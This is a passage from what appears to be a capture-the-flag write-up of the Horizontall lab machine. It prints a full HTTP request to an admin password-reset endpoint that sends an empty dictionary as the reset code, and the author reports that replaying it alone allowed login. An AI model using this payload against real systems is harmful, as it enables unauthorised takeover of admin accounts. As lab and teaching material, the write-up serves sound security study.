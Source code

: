     s.proxies.update({"http": "http://127.0.0.1:8080"})



The third request looks like:



    POST /admin/auth/reset-password HTTP/1.1
    Host: api-prod.horizontall.htb
    User-Agent: python-requests/2.22.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 68
    Content-Type: application/json

    {"code": {}, "password": "aaaaaa", "passwordConfirmation": "aaaaaa"}



So the exploit is in sending an empty dictionary where the reset code
should be.

At least for Horizontall, the first two requests were not needed at all.
I reset the box, and just replayed this request from repeater:

![](/img/image-20220202161658349.png)

It worked, and I could login.
